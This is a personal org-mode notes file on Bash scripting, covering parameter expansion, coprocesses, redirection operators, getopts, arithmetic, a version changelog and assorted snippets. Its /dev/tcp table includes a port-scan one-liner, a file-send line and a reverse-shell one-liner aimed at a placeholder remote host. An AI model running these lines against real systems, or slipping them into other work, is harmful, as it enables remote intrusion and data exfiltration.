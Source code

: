 - wiki https://en.wikipedia.org/wiki/Bash_(Unix_shell)
  - Author: Brian Fox
  - 1989-

- article order of startup https://blog.flowblok.id.au/2013-02/shell-startup-scripts.html

- PS1's
  - ";"
    - allows you to copy multiple commands (also on rc shell)
    - PS1='%(?.%(!.#.;).%F{6}%B;%b%f) '

- https://en.wikipedia.org/wiki/ANSI_escape_code
  https://www.ele.uva.es/~jesus/lpcVT100/term.html
- https://github.com/dylanaraps/writing-a-tui-in-bash

- article 24
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong
  https://hackaday.com/2024/03/28/is-your-mental-model-of-bash-pipelines-wrong/
- article https://muhammadraza.me/2023/webscraping-in-bash/
- article https://muhammadraza.me/2023/shell-functions/
- article https://garnix.io/blog/contextual-cli
- https://www.commandlinefu.com/
- https://command-not-found.com/
- https://www.mulle-kybernetik.com/modern-bash-scripting/
- https://github.com/xwmx/bash-boilerplate
- https://github.com/dylanaraps/pure-sh-bible
- https://github.com/dylanaraps/pure-bash-bible
- https://github.com/mrzool/bash-sensible
- https://github.com/joseluisq/awesome-bash-commands
- https://lobste.rs/s/iofste/please_stop_writing_shell_scripts
- Why doesn't set -e (or set -o errexit, or trap ERR) do what I expected?
  http://mywiki.wooledge.org/BashFAQ/105
- shfmt
  https://github.com/mvdan/sh
  (fork?) https://github.com/patrickvane/shfmt

- https://wizardzines.com/comics/bash-debugging/
  https://news.ycombinator.com/item?id=39568728

- LLM
  https://hackaday.com/2023/12/29/using-local-ai-on-the-command-line-to-rename-images-and-more/
  https://justine.lol/oneliners/
  https://gist.github.com/jart/bd2f603aefe6ac8004e6b709223881c0

* Language

- "Destructuring" with *read* https://stackoverflow.com/questions/1952404/linux-bash-multiple-variable-assignment

- exec CMD
  - make cmd replace the current shell, no new process is created

- Process substitution
  - careful of not forgetting an "<" in "cmd < <(cmd2)"
  - "cmd | tee >(cmd2) >(cmd3)" - sends "cmd" output to both "cmd2" and "cmd3" stdin https://tecadmin.net/bash-process-substitution/

- Brace Expansion
  - support integer zero padding
  - supports a step {FROM..TO..STEP}
  - you can use an "enumeration" on a "for loop" using "for i in {this,that,theother}"

- commands run in a pipeline run at the same time
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong

- << EOF here document
  <<- EOF here document, ignore leading tabs

- https://zwischenzugs.com/2018/10/12/eleven-bash-tips-you-might-want-to-know/
  https://zwischenzugs.com/2020/05/09/some-relatively-obscure-bash-tips/

- Bash does NOT support natively floating point.

** Coproc

- commands
  - simple: sequence of words
  - compound: shell constructs

- manual https://www.gnu.org/software/bash/manual/html_node/Coprocesses.html
  - coproc [NAME] cmd [redirections]
    - like "cmd &", runs async in a subshell
    - communication happens over pipes
      - NAME defaults to COPROC if none given
      - stdout in NAME[0]
      - stdin  in NAME[1]
    - "wait"

- example: progress bar https://gist.github.com/drewchapin/f43ab1a10367b1bfa53c55fe612d4245
- 10 https://www.linuxjournal.com/content/bash-co-processes
- 11 https://www.zsh.org/mla/users/2011/msg00095.html
- 18 https://www.linuxjournal.com/content/investigating-some-unexpected-bash-coproc-behavior
- 19 https://copyconstruct.medium.com/bash-coprocess-2092a93ad912
- 21 https://mbuki-mvuki.org/posts/2021-05-30-memoize-commands-or-bash-functions-with-coprocs/
  - a memoization solutions that works
  - classic solutions won't because =command substitution= $() runs in a subshell

** Types

- array ops
  ${arr[0]}
  ${arr[@]:1:3}  #slicing
  ${arr[@]// /_} # substitute on each element

- string ops
  ${foo:1:10} # slice
  ${#foo}     # length
  ${foo^^}    # uppercase
  ${foo^}     # capitalize
  ${foo/a/b}  # substitute once
  ${foo//a/b} # substitute all

** Redirections

https://tldp.org/LDP/abs/html/io-redirection.html

- append output also to file
  - exec &>> file.txt
  - exec > <(tee file.txt) 2>&1

- <filename cmd1              - alternative to cat pipe
  <filename >outfile cmd1

- Redirection Operators
  - "|&" https://stackoverflow.com/questions/35917552/what-does-the-syntax-mean-in-shell-language
  - "<>" https://bash.cyberciti.biz/guide/Opening_the_file_descriptors_for_reading_and_writing
  |-------------+------------------------------------------------|
  | ¦&          | shorthand for "2>&1 ¦"                         |
  | [n]<>word   | opens fd n at word, for r/w                    |
  | [n]<&word   | duplicates fd                                  |
  | [n]>&word   | duplicates fd                                  |
  | [n]<&-      | closes fd n (or 0)                             |
  | [n]<&digit- | moves fd digit to n (or 0), closes digit after |
  | [n]>&digit- | moves fd digit to n (or 1)                     |
  |-------------+------------------------------------------------|

- feature: open client socket
  - https://medium.com/@stefanos.kalandaridis/bash-ing-your-network-f7069ab7c5f4
  - /dev/tcp/host/port
    /dev/udp/host/port
  - Examples:
    |---------------+-----------------------------------------------------------------------------------|
    | port scanning | timeout 0.5 echo < /dev/tcp/127.0.0.1/777/ && echo "open" ¦¦ echo "closed"        |
    | read stream   | cat < /dev/tcp/time.nist.gov/13                                                   |
    | receive file  | cat < /dev/tcp/remote.ip/1234 > file.txt                                          |
    | send file     | cat file.txt > /dev/tcp/remote.ip/4321                                            |
    | reverse shell | bash -c 'bash -i >& /dev/tcp/remote.ip/7777 0>&1'                                 |
    |---------------+-----------------------------------------------------------------------------------|
    | http request  | exec 5<>/dev/tcp/www.google.com/80                                                |
    |               | >&5 echo -e "GET / HTTP/1.1\r\nHost: www.google.com\r\nConnection: close\r\n\r\n" |
    |               | <&5 cat                                                                           |
    |---------------+-----------------------------------------------------------------------------------|
    * could have used "here documents" for the GET, using cat and >&5

** Special Parameters

|----+---------------------------|
| $_ | argument of last command  |
| $? | exit code of last command |
| $$ | self PID                  |
| $! | recent bg PID             |
|----+---------------------------|
| $# | number of arguments       |
| $0 | name of the script        |
| $* |                           |
| $@ |                           |
|----+---------------------------|

** select

- Creates an interactive selection menu

#+begin_src bash
  select var in {a..z}; do
    echo $REPLY $var
  done
  # ?# 2
  # 2 b
#+end_src

** getopt(s)

https://en.wikipedia.org/wiki/Getopts
- 1986-
- based on C's getopt

#+begin_src bash
  while getopts ":hf:" arg; do
      case $arg in
          h)  echo "help"; exit 1 ;;
          f)  echo "argument given: $OPTARG" ;;
          :)  echo "Mandatory argument missing for given flag $OPTARG"; exit 1;;
          \?) echo "Unknown flag";  exit 1;;
      esac
  done
  shift $((OPTIND - 1)) # allow positional arguments
#+end_src

** Arithmetic Evaluation $(())

- Equivalent to "let expressions"
  let arg [arg ...]

- "Evaluation is done in fixed-width *integers* with no check for overflow,
   though division by 0 is trapped and flaged as an error."
  - aka NOT floats

- "A shell variable that is null or unset evaluates to 0"

*** Operators
From man
|-----------------------------------+---------------------------------------------|
| id++ id--                         | variable post-increment and  post-decrement |
| ++id --id                         | variable pre-increment and pre-decrement    |
| + -                               | unary minus and plus                        |
| **                                | exponentiation                              |
| * / %                             | multiplication, division, remainder         |
| + -                               | addition, subtraction                       |
|-----------------------------------+---------------------------------------------|
| !                                 | logical negation                            |
| <= >= < >                         | comparison                                  |
| == !=                             | equality and inequality                     |
| &&                                | logical AND                                 |
| ¦¦                                | logical OR                                  |
|-----------------------------------+---------------------------------------------|
| expr?expr:expr                    | conditional operator                        |
| = *= /= %= += -= <<= >>= &= ^= ¦= | assignment                                  |
| expr1 , expr2                     | comma                                       |
|-----------------------------------+---------------------------------------------|
| ~                                 | bitwise negation                            |
| << >>                             | bitwise left and right shifts               |
| &                                 | bitwise AND                                 |
| ^                                 | bitwise exclusive OR                        |
| ¦                                 | bitwise OR                                  |
|-----------------------------------+---------------------------------------------|


* Tutorial: Style https://google.github.io/styleguide/shellguide.html

  - Don’t brace-delimit single character shell specials / positional parameters,
    unless strictly necessary or avoiding deep confusion.
  - Indentation: Indent 2 spaces. No tabs.
  - Comment at the header
    #+begin_src bash
      #!/bin/bash
      #
      # Perform hot backups of Oracle databases.
    #+end_src
  - Redirect errors to STDERR
    #+begin_src bash
      err() {
        echo "[$(date +'%Y-%m-%dT%H:%M:%S%z')]: $*" >&2
      }
    #+end_src
  - Do not put an extension on executables, only on libraries
  - Guidelines
    - When is ok
      * mostly calling other utilities
      * relatively little data manipulation
    - When NOT use
      * Scripts more than 100 lines long
      * Using non-straightfoward control flow logic
      * if performance matters

* Changelog

table of changes https://mywiki.wooledge.org/BashFAQ/061
5.0 discussion https://news.ycombinator.com/item?id=18852523

- 3.0 (2004)
  - regex? =~
- 4.0 (2009)
  - coproc
  - associative array
  - &>> and |&
  - mapfile/readarray
- 4.4 (2016)
  - mapfile/readarray -d
  - ${var@operator} "parameter transformation"
    - U uppercase
    - u capitalize
    - Q single quote
- 5.0 (2019) https://lists.gnu.org/archive/html/bug-bash/2019-01/msg00063.html
  - EPOCHSECONDS / EPOCHREALTIME
  - BASH_ARGV0 (same as $0)
- 5.1 (2020)
  - SRANDOM (32 bit random)

* Codebases

- maze solver https://gist.github.com/xsot/99a8a4304660916455ba2c2c774e623a
- web server https://github.com/dzove855/Bash-web-server
- web framework https://github.com/emasaka/shails
- web framework
  https://github.com/cgsdev0/bash-stack/
  https://bashsta.cc/0-index
- minecraft server
  https://sdomi.pl/weblog/15-witchcraft-minecraft-server-in-bash/
  https://github.com/sdomi/witchcraft
  https://news.ycombinator.com/item?id=30347501

* Snippets

- Example: concatenation
  $ cut -d: -f2 studentlist.txt | xargs printf "%s@example.com"

- Common lines between files
  $ grep -Fxf file1 file2
  $ grep --fixed-strings --line-regexp --file file1 file2

- Not common lines
  $ grep -vFxf file1 file2

#+NAME: scramble string
#+begin_src bash
echo -n "${1}" | fold -w1 | sort -R | xargs -ILETTER echo -n LETTER

echo -n "${1}" | while read -n1 -r letter; do
     echo $letter
done | sort -R | xargs -ILETTER echo -n LETTER
#+end_src

#+begin_src bash
  die() { echo $1 >&2; exit 1; } # some_command || die "oh no!"
#+end_src

#+begin_src bash
  for cmd in sgr0 bold; do
    tput $cmd
    for i in $(seq 0 7); do
      for j in $(seq 0 7); do
        tput setaf $i; tput setab $j; echo -n " $i,$j "
      done
      tput sgr0; echo; tput $cmd
    done
  done
#+end_src

* 14 Video: Introduction to Advanced Bash Usage | James Pannacciulli

@ OSCON 2014
https://www.youtube.com/watch?v=uqHjc7hlqd0

- Bash 3/4
- Return values: 0-255

- indirect expansion
  param="parade"; parade="long"
  ${!param} # long

- list names/variables/functions? matching prefix
  ${!pa*} or ${!pa@}

- Parameter Expansion: Conditionals (24:43)
  (check if variable is unset, empty or non-empty)
|--------------------+--------------+--------------+-------------|
|                    | unset param  | param=""     | param="gnu" |
|--------------------+--------------+--------------+-------------|
| ${param-default}   | default      | -            | gnu         |
| ${param=default}   | name=default | -            | gnu         |
| ${param+alternate} | -            | alternate    | alternate   |
| ${param?error}     | error        | -            | gnu         |
|--------------------+--------------+--------------+-------------|
| empty as unseat    | ..           | ..           | ..          |
|--------------------+--------------+--------------+-------------|
| ${param:-default   | default      | default      | gnu         |
| ${param:=default   | name=default | name=default | gnu         |
| ${param:+alternate | -            | -            | alternate   |
| ${param:?error}    | error        | error        | gnu         |
|--------------------+--------------+--------------+-------------|

- example: brace expansion
  > echo bash{,{d,s},ful{,ly,ness},ing}
  bash bashed bashes bashful bashfully bashfulness bashing
  > man man
  > man{,}
  > echo {1..5}{0,5}% # BASH 3
  10% 15% 20% 25% 30% 35% 40% 45% 50% 55%
  > echo {10..55..5}% # BASH 4
  10% 15% 20% 25% 30% 35% 40% 45% 50% 55%

- You don't need {} to define a function
  #+begin_src bash
    words () # for is the compound command
    for word # with the missing "in" it reads from STDIN
    do
        echo "$word"
    done
  #+end_src

- define and then call, being memtop a custom function defined by the user
  > $ sudo bahs -c "$(declare -f memtop); memtop"
